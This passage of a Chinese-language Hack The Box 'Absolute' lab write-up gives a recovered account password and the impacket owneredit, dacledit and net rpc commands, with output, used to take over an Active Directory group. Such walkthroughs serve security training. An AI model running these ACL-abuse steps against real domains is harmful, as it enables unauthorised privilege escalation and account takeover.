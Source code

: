 发现了一个叫 `mlovegod` 的账户，尝试使用这个账户枚举服务，发现都失败了。查看上文枚举得到的用户名，发现该账户的正确用户名应该是 `m.lovegod`。在进行一下枚举，发现该账户有效。

```
username: m.lovegod
password: AbsoluteLDAP2022!
```

## 04. Bloodhound信息收集与分析


![Absolute-bloodhound.png](Absolute-bloodhound.png)

# 04. 从 m.lovegod 到 winrm_user

### 01.  将 `m.lovegod` 添加到 `Network Audit` 组

```bash
kali@kali[~]$ impacket-getTGT 'absolute.htb'/'m.lovegod':'AbsoluteLDAP2022!' -dc-ip dc.absolute.htb

kali@kali[~]$ export KRB5CCNAME=m.lovegod.ccache
kali@kali[~]$ kinit -c m.lovegod.ccache

kali@kali[~]$ impacket-owneredit -k -no-pass absolute.htb/m.lovegod -dc-ip dc.absolute.htb -new-owner m.lovegod -target 'Network Audit' -action write
[*] Current owner information below
[*] - SID: S-1-5-21-4078382237-1492182817-2568127209-1109
[*] - sAMAccountName: m.lovegod
[*] - distinguishedName: CN=m.lovegod,CN=Users,DC=absolute,DC=htb
[*] OwnerSid modified successfully!

kali@kali[~]$ impacket-dacledit -k -no-pass absolute.htb/m.lovegod -dc-ip dc.absolute.htb -principal m.lovegod -target "Network Audit" -action write -rights FullControl  
[*] DACL backed up to dacledit-20250325-143042.bak
[*] DACL modified successfully!

kali@kali[~]$ net rpc group addmem "Network Audit" m.lovegod -U 'absolute.htb'/'m.lovegod'%'AbsoluteLDAP2022!' --use-kerberos=required -S dc.absolute.htb

```